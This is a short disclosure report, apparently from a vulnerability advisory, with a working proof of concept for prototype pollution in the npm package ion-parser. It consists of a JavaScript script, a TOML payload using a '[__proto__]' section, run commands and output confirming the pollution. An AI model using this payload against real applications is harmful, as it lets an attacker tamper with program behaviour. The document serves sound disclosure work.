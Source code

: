 # Description

Prototype Pollution in ion-parser

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var fs = require('fs')
var ion = require('ion-parser')
console.log("Before : " + {}.polluted);
var parsed = ion.parse(fs.readFileSync('./payload.toml', 'utf-8'))
console.log("After : " + {}.polluted);
//payload.toml
[__proto__]
polluted = "Yes! Its Polluted"
```

2. Execute the following commands in terminal:

```
npm i ion-parser # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
